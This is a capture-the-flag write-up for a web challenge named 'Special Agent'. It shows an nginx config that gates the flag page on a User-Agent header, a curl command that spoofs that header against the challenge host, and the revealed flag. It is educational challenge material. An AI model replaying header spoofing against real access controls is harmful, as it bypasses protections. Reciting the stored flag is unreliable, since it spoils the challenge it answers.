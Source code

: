 # Special Agent

## Write-Up

When accessing the home page, we get a button to get the flag. Unfortunatly, it doesn't work for us.

And when checking the provided `nginx` file, here is what we find :

```
events {
}

http {
  server {
    listen 1337;

    location = /flag.html {
      if ($http_user_agent = SuperSecretAgent) {
	rewrite ^ /flag.html break;
      }
      rewrite ^ /no_flag_for_you.html break;
    }

    location = /alive {
      return 200;
    }
  }
}
```

So, in order to get the flag, we need to send a request with a special agent named `SuperSecretAgent` :

```
curl 'http://secret-agent.web-server.challs.ctf.shellmates.club/flag.html' -H "User-Agent: SuperSecretAgent"
```

Here is what we get  :

```
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width-device-width, initial-scale=1.0" />
    <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.4/css/all.min.css" rel="stylesheet"/>
    <link href="https://unpkg.com/tailwindcss@^2/dist/tailwind.min.css" rel="stylesheet"/>
    <title>Secret Agent</title>
  </head>
  <body class="bg-gray-50">
    <header>
      <div class="flex flex-row bg-gray-100 px-5 py-2">
 <a href="/" class="hover:underline hover:text-blue-500 text-black py-1 px-4 font-bold">
   <i class="ml-2 fas fa-user-secret"></i> Secret Agent
 </a>
      </div>
    </header>

    <main>
      <div class="my-5 flex justify-center items-center relative z-20">
 <h1 class="text-black text-5xl font-bold">shellmates{$uuUuUUP3r_S3CR37_aG3Nt}</h1>
      </div>
    </main>

  </body>
</html>

```

## Flag

shellmates{$uuUuUUP3r_S3CR37_aG3Nt}